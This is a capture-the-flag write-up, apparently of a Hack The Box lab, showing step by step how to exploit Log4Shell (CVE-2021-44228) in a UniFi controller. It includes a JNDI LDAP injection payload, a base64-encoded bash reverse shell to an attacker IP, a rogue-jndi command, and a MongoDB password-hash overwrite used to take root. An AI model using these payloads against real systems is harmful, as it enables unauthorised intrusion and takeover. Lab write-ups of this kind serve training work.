

> Completed on `04/09/2022` | OS: `Linux`
> 
> Tools used: `nmap`, `burp-suite`, `netcat`, `ssh`
>

<!--more-->


## **Enumeration**

- First, we will use the Nmap tool to scan the website for information such as ports, services, servers, and vulnerabilities on this server.

```bash
# Nmap 7.92 scan initiated Sun Sep  4 11:35:47 2022 as: nmap -sV -sC -oN unified.txt 10.129.94.222
Nmap scan report for 10.129.94.222
Host is up (0.069s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
6789/tcp open  ibm-db2-admin?
8080/tcp open  http-proxy
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 431
|     Date: Sun, 04 Sep 2022 08:35:56 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 404 
|     Found</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 404 
|     Found</h1></body></html>
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 302 
|     Location: http://localhost:8080/manage
|     Content-Length: 0
|     Date: Sun, 04 Sep 2022 08:35:56 GMT
|     Connection: close
|   RTSPRequest, Socks5: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Sun, 04 Sep 2022 08:35:56 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1></body></html>
|_http-title: Did not follow redirect to https://10.129.94.222:8443/manage
|_http-open-proxy: Proxy might be redirecting requests
8443/tcp open  ssl/nagios-nsca Nagios NSCA
```

- Here, we have 4 ports as below:

> `22/tcp   open  ssh   OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)`
> 
> `6789/tcp open  ibm-db2-admin?`
>`8080/tcp open  http-proxy`
> 
> `8443/tcp open  ssl/nagios-nsca Nagios NSCA`
> 

The scan revealed an open port running an HTTP proxy. However, the proxy seems to redirect requests to port 8443, on which an SSL web server appears to be running. The website on port 8443 is "UniFi Network".

<aside>
💡 The UniFi® Controller is **a wireless network management software solution from Ubiquiti Networks™**. It allows you to manage multiple wireless networks using a web browser. This User Guide is for use with version 3.2 or above of the. UniFi Controller software and all of the UniFi Enterprise.
</aside>


We use the keyword “`UniFi 6.4.54 exploit`” reveals an article that discusses the in-depth exploitation of the `CVE-2021-44228` vulnerability within this application - ( It is also called Log4J).

## Exploitation

First, we try to login to the website with `admin:admin` and the login requests will be captured by Burp Suite, then we can edit it.

The vulnerability is in the `remember` (or username in other version) value issued in the login request

shown below:

```bash
POST /api/login HTTP/2
Host: <TARGET> 
Content-Length: 109
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="96"
Sec-Ch-Ua-Mobile: ?0
User-Agent: User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
 Chrome/96.0.4664.45 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Content-Type: application/json; charset=utf-8
Accept: */*
Origin: https://<TARGET>
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://<TARGET>/manage/account/login?redirect=%2Fmanage
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

{"username":"admin","password":"admin","remember":"<PAYLOAD>","strict":true}
```


<aside>
💡 **JNDI** is the acronym for the  Java Naming and Directory Interface API . By making calls to this API, applications locate resources and other program objects. A resource is a program object that provides connections to systems, such as database servers and messaging systems.

</aside>

<aside>
💡 **LDAP** is the acronym for Lightweight Directory Access Protocol , which is an open, vendor-neutral, industry standard application protocol for accessing and maintaining distributed directory information services over the Internet or a Network. The default port that LDAP runs on is port 389 .

</aside>

- Apter we touch “send” the Response pane will display the response from the request and the output shows us an error message the payload is actually being executed.
- If we use the tcpdump on port 389 tool in shell linux to see if network packets are being transmitted.


- Now that you know the target is vulnerable, we are going to try and get a reverse shell so we can interact with the underlying Linux operating system. First, you need to clone and build the tool, rogue-jndi from the GitHub repository linked below:

```bash
git clone https://github.com/veracode-research/rogue-jndi
```

<aside>
💡 tcpdump is a data-network packet analyzer computer program that runs under a command line interface. It allows the user to display TCP/IP and other packets being transmitted or received over a network to which the computer is attached.

</aside>

- Once the Jar is compiled, you’ll have to craft a command to deliver the reverse shell. We don’t have `nc` out of the box. Let’s craft our reverse shell and Base64 encode it using the one-liner below. Modify the command to fit your needs, replacing the IP address and port.

`echo 'bash -c bash -i >&/dev/tcp/10.10.15.15/4444 0>&1' | base64`


- With that Base64 output, build your command in rogue-jndi:

```bash
java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTkyLjE2OC4xMS41MC80NDQ0IDA==}|{base64,-d}|{bash,-i}" --hostname "192.168.11.50"
```

- Replace the Base64 encoded string after “echo” in the command above with the one you generated. Replace the hostname variable with the public or local IP of the host you will run the command from. Then start your rogue-jndi LDAP server up.


- Going back to our intercepted POST request, let's change the payload to
`${jndi:ldap://{Your Tun0 IP}:1389/o=tomcat}`and click `Send`


- Once we receive the output from Rogue server, a shell spawns on our Netcat listen and we can upgrade up the terminal shell as below:

```bash
script /dev/null -c bash
```

- Finally, we get the user file contains flag:


### Privilege Escalation

Now we will check if mongoDB is running the target systerm and use the following command:

```bash
ps aux | grep mongo
```

- Then, we can see that mongo running port 27117, now we will connect to MongoDB and show databases.


<aside>
💡 MongoDB is a source-available cross-platform document-oriented database program. Classified as a NoSQL database program, MongoDB uses JSON-like documents with optional schemas.

</aside>


- In order to view the admin’s table information, we use the following command:

`db.admin.find().forEach(printjson);`


- Their password hash is located in the `X_Shadow` varialbe, but it can’t crack because this is SHA-512 code. Instead we can change the password hash with our very own created hash in order to replace the administrators password and authenticate to the administrative panel. To do this we can use the following command.



> SHA-512, or Secure Hash Algorithm 512, is a hashing algorithm used to convert text of any length into a fixed-size string. Each output produces a SHA-512 length of 512 bits (64 bytes). This algorithm is commonly used for email addresses hashing, password hashing…
> 
- Let's proceed to replacing the existing hash with the one we created.

```bash
db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"SHA_512 Hash Generated"}})
```


- Let's now visit the website and log in as administrator . It is very important to note that the username is case sensitive.
    
    
    
- UniFi offers a setting for SSH Authentication, which is a functionality that allows you to administer other Access Points over SSH from a console or terminal.


Finally, we get the password of root account. Let's attempt to authenticate to the system as root over SSH and the root file in the folder root.


> Done🎉